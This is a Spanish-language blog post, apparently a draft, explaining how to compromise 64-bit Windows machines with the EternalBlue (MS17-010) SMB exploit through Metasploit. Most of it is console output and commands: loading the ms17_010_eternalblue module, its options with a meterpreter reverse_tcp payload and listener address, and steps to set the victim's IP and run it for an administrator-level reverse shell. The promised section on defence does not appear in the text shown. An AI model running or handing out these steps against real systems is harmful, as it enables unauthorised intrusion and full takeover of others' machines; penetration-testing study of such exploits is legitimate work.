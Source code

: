 ```yaml
---
title: Eternalblue
published: false
---
```


* Confidencialidad: Totalmente comprometida.
* Integridad: Totalmente comprometida.
* Disponibilidad: Totalmente comprometida.
* Ataque: A traves de la red (Puerto 445).

Buenas a todos, hoy vengo a compartir el uso de un exploit que nos permitira comprometer máquinas Windows de 64 bits, ademas de ello, aprenderemos a como evitar ser comprometidas por este exploit.

## ¿En que consiste eternalblue?

Eternalblue es un exploit que nos permite vulnerar máquinas Windows Vista SP2, Windows Server 2008 SP2 y R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold y R2, Windows RT 8.1, Windows 10 Gold 1511 y 1607, y Windows Server 2016 de 64 bits aprovechando una vulnerabilidad en el SMB (Server Message Block). Lo interesante de este exploit, es que no nos hará falta hacer una escalación de privilegios previa, debido a que desde el primer momento ya seremos administradores de la máquina, comprometiéndola por completo. Y todo esto a través de la red (Puerto 445).

## ¿Como atacar usando este exploit?
Para usar este exploit, usaremos [Metasploit Framework](https://www.metasploit.com/).

* Primero, seleccionaremos el exploit:

```
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.1.13-dev-                         ]
+ -- --=[ 2176 exploits - 1153 auxiliary - 399 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services

msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
* Una vez seleccionado el exploit podremos hacer un "show options" para ver los parámetros que debemos configurar:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded St
                                             andard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standa
                                             rd 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
                                             t machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.158    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

* Ahora que sabemos que parámetros nos permite configurar el exploit, cambiaremos los necesarios. Primero, tendremos que saber la IP de la máquina víctima. La configuraremos con "set RHOST [IP de la victima]".

* Después, comprobaremos si nuestra IP esta correctamente seleccionada, en caso contrario, usaremos "set LHOST [Nuestra IP]".

Eso sería todo, con esos parámetros básicos, ya seriamos capaces de ejecutar el exploit y comprometer la máquina. Para ejecutar el exploit usaremos el comando "run". 

Una vez que la máquina haya sido comprometida, se nos abrirá una shell reversa usando meterpreter (Esta definido por defecto como payload).
